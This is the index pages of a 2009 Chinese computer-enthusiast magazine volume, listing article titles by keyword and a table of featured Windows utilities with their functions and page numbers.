- 98 一键恢复 告别N次无聊操作，一键恢复哥俩都好
- 175 一键切换 默认程序争风吃醋 教你一键切换
- 252 移动数据 打造“移动数据堡垒”
- 163 音乐 音乐无罪 玩在线游戏不再卡
- 143 音乐达人 音乐达人的几个关键词
- 194 音乐打包 喜欢的、收藏的，音乐统统打包!
- 53 音乐相册 让PowerPoint音乐相册一直放映下去!
- 274 音频播放 笔记本播放音频为何有电流声
- 186 音速启动 80后小生携“音速启动”开启IT之门
- 72 音箱 2.0音箱甜美的音色 不能只靠一张试音碟
- 272 引导 光驱无法引导系统盘
- 25 隐藏分区 隐藏分区 看我另辟蹊径
- 193 隐藏文件 狡兔三窟 学会隐藏你的秘密文件
- 42 隐私 警惕! 卖二手卖出隐私
- 109 隐私 偷袭影音图，保住隐私才快乐
- 167 隐私 给你看隐私中的隐私 隐私保护软件的开发故事
- 139 隐私浏览 隐私浏览也要按需定制
- 340 硬解 你的硬解谁做主?
- 31 邮件附件 《轻松找出邮件附件中的宝贝》的回音
- 136 邮件附件 轻松找出邮件附件中的宝贝
- 46 邮箱 邮箱体积大 附件技巧多
- 149 邮箱 掏在口袋里的邮箱
- 152 邮箱 你有好消息! 请到邮箱收
- 269 邮箱 IE打开QQ邮箱进入英文模式
- 258 游戏 玩游戏经常黑屏
- 264 游戏 玩游戏界面出现灰色一片
- 265 游戏 网络游戏不能登录
- 350 游戏本本 游戏本本如何选“芯”
- 39 游戏存档 游戏存档 我用你的
- 56 游戏存档 用%Appdata%找到游戏存档
- 276 游戏平台 131玩游戏平台
- 272 游戏显示 游戏显示效果不正常
- 189 娱乐新闻 老板眼皮下面，我用飞秋看娱乐新闻
- 156 远程桌面 远程桌面，先亮身份
- 266 远程桌面 突破远程桌面连接限制
- 240 云安全 日久见真招 用历史讲述“云安全”
- 173 云端软件 简单时代来临，随手添加进“云端软件”
- 262 运行出错 软件运行出现 (0xc0000135) 错误
- 140 在线电脑 不仅仅是模仿秀，在线电脑各有绝活
- 160 在线调查 你的心情现在还好吗——在线调查轻松报
- 239 在线听歌软件 真正海选 九款在线听歌软件比高下
- 159 在线文档 在线文档，随处打印不变形
- 232 在线文件处理 网站还是软件？在线文件处理盛行
- 297 在校生 在校生，请时刻准备着为找工作而努力奋斗
- 336 噪声 噪声阵阵何必烦忧
- 357 掌上电脑 再一次掌上电脑之死
- 185 账号 账号很淘气 保镖怎么当
- 270 账号 两个账号同时登录出现问题
- 243 账号盗窃 来自IT的警匪片 账号盗窃案的追捕
- 132 照片 MM追星热 偶像照片一把抓
- 344 照片MTV 将照片做成MTV在MP4中欣赏
- 268 支付宝 支付宝提示证书过期
- 272 指点杆 指点杆无法使用
- 98 智能调整 保护视力，智能调整屏幕色温
- 368 智能机 “挂Q”聊天只靠“智能机”
- 362 智能山寨机 菜菜老爸的智能山寨机
- 353 智能手机 新学期 学生平民智能手机选购
- 271 主板 Intel G43主板对内存的要求
- 271 主板 790GX主板花屏
- 120 注册表 注册表导入，拒绝多嘴提示
- 176 专杀工具 会打字就会写工具 专杀工具你自己就能做
- 184 专杀工具 不花钱 大牌专杀工具随便玩
- 36 专业显卡 3000元的3D动画制作电脑? 专业显卡、游戏显卡傻傻分不清楚
- 173 转换高清 转换高清 别忘开启CUDA
- 192 转换器 难舍视频情 从播放器到转换器的蜕变
- 37 桌面 绝对控制! 将桌面作用发挥到极致
- 196 桌面 上下左右齐扩张 桌面不再不够用
- 256 桌面 桌面总是显示“恢复Active desktop”信息
- 258 桌面 右击桌面“属性”打不开
- 330 桌面导航 为什么联想Y550不能用桌面导航
- 36 桌面项目 快速访问桌面项目，无招胜有招
- 110 桌面秀 我换我换我换换 DIY水3桌面秀
- 112 桌面秀 快速回到桌面，我有新招
- 44 资源 细说常说的“节约资源”
- 134 资源更新 资源更新，电驴报信
- 53 字体 换换字体 手机更靓
- 19 字型 “型”男的决定——字型也要帅
- 212 自定义 巧用自定义键盘：Word 2007快存DOC
- 179 自动保存 别欺负菜鸟 记事本也能自动保存
- 107 自动播放 子曰：好的自动播放，可以留一点儿
- 259 自动关闭 系统为何会自动关闭
- 256 自动关机 系统为何自动关机
- 258 自动关机 系统为何会自动开机
- 97 自动旋转 打印照片，你别玩自动旋转
- 118 自动重启 自作聪明的更新后自动重启，举起手来
- 186 自启动 冤假错案 找回丢失的杀软自启动
- 257 组件 RUNDLL32.EXE 无法找到组件
- 364 最低电压 寻找CPU的最低电压

## 电脑爱好者合订本

### 2009年（下）期刊软件目录

| 软件名称 | 软件功能说明 | 所在期号页码 |
|----------|--------------|--------------|
| 美图秀秀 | 图片处理 | 12-19 |
| 无忧登录 | 账号登录管理工具 | 12-42 |
| Filemon | 监视硬盘读写 | 12-47 |
| RegShot | 监视注册表变化 | 12-47 |
| 意天多桌面专家 | 虚拟桌面 | 12-48 |
| 仿真放大器 | 放大图片 | 12-48 |
| 超级兔子 | 系统辅助 | 12-51 |
| Excel工具箱 | 为Excel增加多种实用功能的软件 | 12-56 |
| Audio100 | 测音软件 | 12-100 |
| HotkeyP | 打造超强的系统快捷键 | 13-14 |
| TotalMedia Theatre | 支持倍线的播放软件 | 13-16 |
| PotPlayer | 多媒体播放软件 | 13-17 |
| Foxit Reader | 小巧的PDF阅读工具 | 13-18 |
| AutoHotkey | 自动应答脚本 | 13-30 |
| 硬盘保护卡克星 | 让还原卡失灵 | 13-34 |
| Just Chat | MSN伪装成Word | 13-35 |
| DotWA | WAP网页制作工具 | 13-42 |
| WindowsTabs | 软件管理工具 | 13-43 |
| Winpatrol | 系统防护 | 13-48 |
| 卡巴斯基手机安全软件8.0 | 手机防护 | 13-49 |
| 3DBOOK | 电子书阅读 | 13-50 |
| Resourse Hacker | 位图编辑 | 13-50 |
| 酷客表情输入法 | 表情输入 | 13-51 |
| GeoVid VidLogo | 视频LOGO编辑 | 13-52 |
| PhotoShop SpeedUp | 加速PS启动 | 13-53 |
| 金排物理画板 | 在Word中制作物理示意图 | 13-56 |
| EasyRecovery | 数据恢复软件 | 13-80 |
| 菊子曰 | 博客发布软件 | 14-56 |
| QQ相册查看器 | 不用开网页即可浏览QQ相册 | 14-58 |
| 执行者 | 可通过手机短信控制电脑 | 14-52 |
| 论坛助理 | 论坛信息过滤工具 | 14-54 |
| HostsEdit | 本机HOST文件编辑工具 | 14-58 |
| iColorFolder | 文件夹变色 | 14-51 |
| WindowsTextCopyer | 复制窗口文字 | 14-46 |
| NetWorx | 上网流量统计 | 14-66 |
| AM-DeadLink | 收藏夹地址管理 | 14-68 |
| 文件密码箱 | 文件加密 | 14-62 |
| 全景大师 | 图片拼接 | 14-66 |
| Suction | 合并子目录 | 14-66 |
| 窗口移动精灵 | 窗口设置 | 14-69 |
| Chameleon | 多系统引导 | 14-69 |
| Goldwave | 音频编辑软件 | 15-17 |
| Everest | 检测硬件型号、驱动 | 15-32 |
| Polyglot 3000 | 语言识别工具 | 15-39 |
| Outlook Attachview | 附件管理工具 | 15-44 |
| 鲁大师 | 硬件检测 | 15-47 |
| 反弹天使 | 阻止弹出窗口 | 15-48 |
| 有备数据保护专家 | 网络备份 | 15-51 |
| 云端软件绿色添加器 | 云端添加器 | 15-53 |
| 文件整理助手 | 快速复制 | 15-53 |
| 光影魔术手 | 图片处理 | 15-66 |
| HPA分区检测工具 | 检测隐藏分区 | 16-36 |
| 天网一键恢复 | 创建HPA分区 | 16-36 |
| WeFi | 无线搜索管理 | 16-43 |
| SREng | 安全防护 | 16-50 |
| 360安全卫士 | 软件管理 | 16-52 |
| MediaCoder | 视频转换 | 16-52 |
| QQ空间克隆器 | QQ空间复制 | 16-53 |
| 盛大硬件检测工具 | 配置测试 | 16-54 |
| Picasa | 图片查看 | 16-56 |
| Dxva Checker | 显卡硬解压检测工具 | 16-91 |
| OCCT | 电源检测工具 | 17-31 |
| MSN历史记录查看器 | MSN聊天记录检索 | 17-46 |
| RecentFilesView | 最近打开文件查询 | 17-46 |
| 登录界面修改器 | 修改系统登录界面 | 17-47 |
| 桌面壁纸自动换工具 | 定时更换桌面 | 17-47 |
| 龙卷风网络收音机 | 收听网络电台 | 17-48 |
| SuperF4 | 关闭假死窗口 | 17-50 |
| 记事本自动保存工具 | 让记事本自动保存 | 17-51 |
| AVEng | 制作病毒专杀工具 | 17-53 |
| Simple Port Forwarding | 软件端口映射设置工具 | 17-70 |
| hjsplit | 合并分割文件 | 18-25 |
| 绿鹰安全精灵 | 木马扫描系统防护 | 18-41 |
| 速填助手 | 自动填写表格 | 18-44 |
| 抓抓掌中影音伴侣 | 音视频文件搜集、转换 | 18-46 |
| 百阅手机文档制作工具 | 电子书制作、阅读 | 18-46 |
| uTorrent | 支持IPv6的BT客户端软件 | 18-54 |
| RabbiTV | 集合了主要的IPv6网络电视资源 | 18-54 |
| IndexView | 追踪上网 | 19-34 |
| Vista优化大师 | 优化Vista系统 | 19-37 |
| 少儿学习辅助 | 汉语拼音学习软件 | 19-51 |
| 狸窝超级全能视频转换器 | 视频转换和编辑 | 19-53 |
| 好运来电脑抽奖软件 | 电脑抽奖系统 | 19-54 |
| 歪歪语音 | 语音聊天 | 19-54 |
| 谷歌金山词霸 | 中英文查询 | 19-55 |
| NB自动关机工具 | 自动关机 | 19-55 |
| 移动英语通 | 在PSP等移动设备上输入英文 | 19-64 |
| JoikuSpot | 手机AP软件 | 19-96 |
| 金山网盾 | 防控网页木马 | 20-47 |
| IVT BlueSoleil | 电脑蓝牙通讯管理 | 20-50 |
| XnView | 看图软件 | 20-49 |
| clip2net | 截图软件 | 20-43 |
| BlockInput | 锁定键鼠 | 20-49 |
| 音速启动 | 快捷方式管理 | 20-45 |
| 光影魔术手 | 图片处理 | 20-51 |
| 我行我速 | 图片处理 | 20-51 |
| 人人网桌面版 | 人人网聊天 | 20-49 |
| 晨枫闪盘维护工具V2.0 | 制作启动盘 | 20-25 |
| 德威几何尺 | 测量尺寸及角度的小工具 | 21-52 |
| HashTab | 比较SHA值 | 21-30 |
| HSLAB Shutdown Folder | 为Windows巧设关机文件夹 | 21-31 |
| USBCleaner | 闪盘病毒清除 | 21-45 |
| ConfigFree | 网络连接管理 | 21-50 |
| Wallpaper Expert | 桌面定时更换 | 21-50 |
| 飞秋 | 局域网通讯 | 21-51 |
| Kaspersky Virus Removal Tool | 免费杀毒工具 | 21-47 |
| 极点五笔 | 文字输入 | 22-43 |
| 快乐影音转换器 | 视频转换 | 22-46 |
| 可牛看图 | 网络图片查看 | 22-47 |
| Hot Virtual Keyboard | 虚拟键盘 | 22-52 |
| XPSysPad | 快速查找XP设置项 | 22-52 |
| 魔方 | 系统辅助管理 | 22-53 |
| HttpWatch | 数据包嗅探 | 22-66 |
| VSuite.Ramdisk | 内存工具 | 23-53 |
| Bathrun | 多软件打包启动 | 23-67 |
| 迅雷软件助手 | 软件管理 | 23-67 |
| 桌面整理助手 | 桌面文件自动整理 | 23-66 |
| 精灵快捷栏 | 软件浮动条 | 23-66 |
| Dexpot | 虚拟桌面 | 23-66 |
| Taskix | 滚轮切换任务栏 | 23-66 |
| Diagram Designer | 流程图制作 | 23-62 |
| ESET NOD32皮肤工具 | ESET NOD32皮肤制作 | 23-69 |